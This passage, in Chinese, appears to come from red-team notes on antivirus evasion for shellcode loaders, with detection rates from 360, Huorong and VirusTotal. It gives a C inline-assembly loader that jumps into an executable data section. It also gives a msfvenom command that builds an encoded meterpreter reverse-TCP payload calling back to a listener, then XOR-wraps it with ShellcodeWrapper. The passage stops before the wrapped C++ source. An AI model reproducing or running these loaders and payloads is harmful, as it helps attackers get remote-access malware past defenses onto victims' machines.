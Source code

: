 打开杀软测试，360和火绒均可查杀，但360是在上线后几分钟后才检测出来的（原po静态+动态都没问题，可正常上线）。

virustotal.com上查杀率为34/68（原po为9/70）。

![image-20220530142524357](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205301425472.png)

### 方法5 汇编花指令(VT免杀率37/69)

```c
#include <windows.h>
#include <stdio.h>
#pragma comment(linker, "/section:.data,RWE")
unsigned char shellcode[] ="";

void main()
{
    __asm
    {

        mov eax, offset shellcode
        _emit 0xFF  
        _emit 0xE0

    }
}
```

打开杀软，火绒可查杀，**360不可查杀**（原po火绒静态可查杀但是行为检测没报警，360杀毒和卫士没有反应，直接上线）。

virustotal.com上查杀率为37/69（原po为12/69）。

![image-20220530143025208](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205301430315.png)

### 方法6 xor加密（VT免杀率21/69）

需要使用一个工具`https://github.com/Arno0x/ShellcodeWrapper`，原项目为python2，在此基础上修改了一个python3版本[ShellcodeWrapper](https://github.com/Threekiii/Awesome-Redteam/tree/master/scripts/ShellcodeWrapper)。

先用msfvenom生成一个raw格式的shellcode

```
msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=192.168.174.128 lport=6666  -f raw > shellcode.raw
```

在`ShellcodeWrapper`文件夹中执行下面命令，其中`threekiii`为自己设置的key。

```
python shellcode_encoder.py -cpp -cs -py shellcode.raw threekiii xor
```

生成了三个文件，一个为C++源码，也是下面要用到的，一个为C#源码，可以使用csc.exe进行加载，还有一个py文件，可直接执行也可以编译成py-exe执行。

![image-20220530145037208](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205301450337.png)

其中`encryptedShellcodeWrapper_xor.cpp`文件中的C++源码如下，稍作修改，删除依赖库：
